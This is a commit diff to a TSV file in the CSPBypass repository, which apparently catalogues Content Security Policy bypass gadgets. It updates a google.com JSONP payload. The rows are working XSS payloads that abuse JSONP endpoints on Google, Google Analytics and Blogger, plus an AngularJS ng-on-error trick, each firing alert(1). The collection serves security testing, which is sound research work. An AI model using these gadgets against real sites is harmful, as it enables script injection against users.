

Before and after one commit to renniepak/CSPBypass, a TSV file: data.tsv, drawn as a sheet; only a part is shown, gaps mark what is left out.

Commit message:
Updated the www.google.com version to work with an argument

```diff
--- a/data.tsv
+++ b/data.tsv
@@ -187,3 +187,3 @@ www.blogger.com	<script src="https://www.blogger.com/feeds/8063678697117239807/p
 www.google-analytics.com	<script src="https://www.google-analytics.com/debug/api/vtinfo?gtm_auth=a-0uanYFkML7e3v7Vmxpwg&env_id=env-8&public_id=GTM-TWMCBFD&templates=&callback=alert"></script>
-www.google.com	<script src="https://www.google.com/complete/search?client=chrome&q=hello&callback=alert#1"></script>
+www.google.com	<script src="https://www.google.com/complete/search?client=chrome&jsonp=alert(1)"></script>
 www.google.com	<script src='https://www.google.com/recaptcha/about/js/main.min.js'></script><img src=x ng-on-error='$event.target.ownerDocument.defaultView.alert(1)'>
```
